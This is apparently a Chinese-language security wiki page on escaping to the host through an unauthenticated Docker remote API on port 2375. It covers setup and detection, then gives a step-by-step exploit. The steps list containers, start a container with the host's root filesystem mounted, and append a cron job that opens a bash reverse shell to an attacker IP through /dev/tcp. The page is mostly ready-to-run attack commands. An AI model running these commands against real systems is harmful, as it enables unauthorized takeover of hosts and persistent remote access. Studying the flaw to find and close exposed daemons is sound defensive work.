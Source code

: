 ```yaml
---
title: Docker 远程 API 未授权访问逃逸


---
```


<center><h1>Docker 远程 API 未授权访问逃逸</h1></center>

---

docker remote api 可以执行 docker 命令，docker 守护进程监听在 0.0.0.0，可直接调用 API 来操作 docker

# 搭建

将 docker 守护进程监听在 0.0.0.0

```bash
dockerd -H unix:///var/run/docker.sock -H 0.0.0.0:2375
```

# 检测

```bash
IP=`hostname -i | awk -F. '{print $1 "." $2 "." $3 ".1"}' ` && wget http://$IP:2375
```

如果返回 404 说明存在

<img width="1200" src="/img/1650014660.png">

# 复现

列出容器信息

```bash
curl http://<target>:2375/containers/json
```

查看容器

```bash
docker -H tcp://<target>:2375 ps -a
```

新运行一个容器，挂载点设置为服务器的根目录挂载至/mnt目录下。

```bash
docker -H tcp://10.1.1.211:2375 run -it -v /:/mnt nginx:latest /bin/bash
```

在容器内执行命令，将反弹shell的脚本写入到/var/spool/cron/root

```bash
echo '* * * * * /bin/bash -i >& /dev/tcp/10.1.1.214/12345 0>&1' >> /mnt/var/spool/cron/crontabs/root
```

本地监听端口，获取对方宿主机shell。

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年4月15日"
    }
  }
</script>